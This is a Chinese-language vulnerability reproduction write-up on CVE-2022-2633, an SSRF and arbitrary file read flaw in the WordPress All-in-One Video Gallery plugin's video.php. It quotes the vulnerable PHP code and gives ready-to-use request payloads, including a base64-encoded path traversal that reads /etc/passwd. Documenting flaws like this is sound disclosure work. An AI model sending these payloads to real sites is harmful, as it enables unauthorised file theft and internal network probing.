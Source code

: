 # WordPress All-in-One Video Gallery video.php 任意文件读取漏洞 CVE-2022-2633

## 漏洞描述

WordPress All-in-One Video 插件 Gallery video.php文件中存在SSRF以及任意文件读取漏洞，攻击者通过发送特定的请求包读取任意文件

## 漏洞影响

<a-checkbox checked>WordPress All-in-One Video Gallery  <= 2.6.0</a-checkbox></br>

## 插件名

<a-checkbox checked>All-in-One Video Gallery</a-checkbox></br>

<a-checkbox checked>https://downloads.wordpress.org/plugin/all-in-one-video-gallery.2.6.0.zip</a-checkbox></br>

## 漏洞复现

对比漏洞修复的文件找到出现漏洞的文件 wp-content/plugins/all-in-one-video-gallery/public/video.php

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1665396901441-051cdcb4-9932-48f7-96f7-b57aa55b37b0.png)

这里接收 dl 参数，dl 参数不为 数字类型时，参数将 base64 解码传入

```sql
		if ( is_numeric( $_GET['dl'] ) ) {
			$file = get_post_meta( (int) $_GET['dl'], 'mp4', true );
		} else {
			$file = base64_decode( $_GET['dl'] );
		}

		if ( empty( $file ) ) {
			die( esc_html__( 'Download file URL is empty.', 'all-in-one-video-gallery' ) );
           	exit;
        }
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1665398476539-d7b73586-47fb-49ac-aefc-75518d40abf3.png)

当传入的参数中不存在 http:// 或 https:// 时，参数 $formatted_path 的值改变

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1665400025228-ec8b2210-1683-4f95-b05d-085338323586.png)

当 $formatted_path 为 url 时存在 SSRF漏洞，传入 base64编码 的目标URL就可以得到回显

```sql
/index.php/video/?dl=aHR0cHM6Ly93d3cuYmFpZHUuY29t
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1665400131718-e35e3a69-9fef-4717-b22c-25e07f659dac.png)

看向代码最后的片段，则存在任意文件读取漏洞

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1665400190046-5f6608e0-f8d6-4291-ba23-9d468a95ac46.png)

```sql
/index.php/video/?dl=Li4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1665400254761-b7c390f4-6412-4104-a806-856aabf21e98.png)
